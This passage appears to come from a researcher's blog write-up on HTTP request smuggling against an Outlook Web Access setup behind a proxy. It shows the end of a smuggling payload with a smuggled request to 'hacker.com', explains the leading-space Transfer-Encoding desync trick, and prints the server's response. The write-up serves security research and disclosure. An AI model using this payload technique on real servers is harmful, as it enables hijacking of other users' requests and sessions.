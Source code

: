     44
    6kqfa=x&url=https%3a%2f%2fowa.customer.com%2fowa%2f&reason=0&whfto=x
    0

    GET https://hacker.com/ HTTP/1.0
    X-Ignore: 1
{% endhighlightcode %}
 
This request has a `Content-Length` of 124, which is the entire body. It will be posted to the proxy, which will use it to determine that the body is 124 bytes long. The request is then forwarded to the actual OWA service.

If this setup is vulnerable to HRS, OWA handles the request differently (using chunked encoding instead of using the content length). Chunked encoding allows a client to send chunks of data in the body. In this case there is one chunk of data. This starts with the hexadecimal `44`, which is `68` if converted to decimal. This is the length of the chunk body, which can be seen on the next line. After the 68 characters, the request is terminated with a chunk of size `0`. *This is a normal request that OWA accepts.*

However, the part after the termination is left unprocessed. The OWA service will treat it as part of the next request sent by the proxy (possibly from another user).

This also works the other way around (if the proxy uses chunked encoding and OWA uses the content length). There are multiple ways infrastructures can be vulnerable to HRS. All of these ways are described in the blog of PortSwigger ({% customlink "https://portswigger.net/web-security/request-smuggling" %}). Actually, the real trick that we used is that we inserted a space before the transfer encoding header; ` Transfer-Encoding: chunked`. The proxy was unable to parse it and used the `Content-Length` to determine the body length. However, OWA *was* able to parse it and used the `Transfer-Encoding` header to determine the body length.

When we executed the request above, we got the following response from the server.

{% highlightcode http %}
    HTTP/1.1 200 OK
    Cache-Control: no-cache, no-store
    Pragma: no-cache
    Content-Type: text/html; charset=utf-8
    Expires: -1
    Server: server1
    request-id: 59b59708-3551-44ec-8e05-1e8be2e11859
    Set-Cookie: ClientId=MMEESFDUOFIVCMQNW; expires=Wed, 30-Mar-2022 20:57:55 GMT; path=/; HttpOnly
    X-Frame-Options: SAMEORIGIN
    X-AspNet-Version: 4.0.30319
    X-Powered-By: ASP.NET
    Date: Tue, 30 Mar 2021 20:57:54 GMT
    Content-Length: 28032

    <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
    <!-- Copyright (c) 2011 Microsoft Corporation.  All rights reserved. -->
    <!-- OwaPage = ASP.auth_logon_aspx -->
    -- snip --
{% endhighlightcode %}

As can be seen, the response status is `200 OK`, meaning our request was valid, and the server returned a valid response. At first, I thought this meant it did not interpret the second part of our body, as it would then have produced a `400 Bad Request` response status. I thought that the proxy/OWA setup was most likely vulnerable. However, after additional research it turned out OWA accepts any arbitrary POST data.
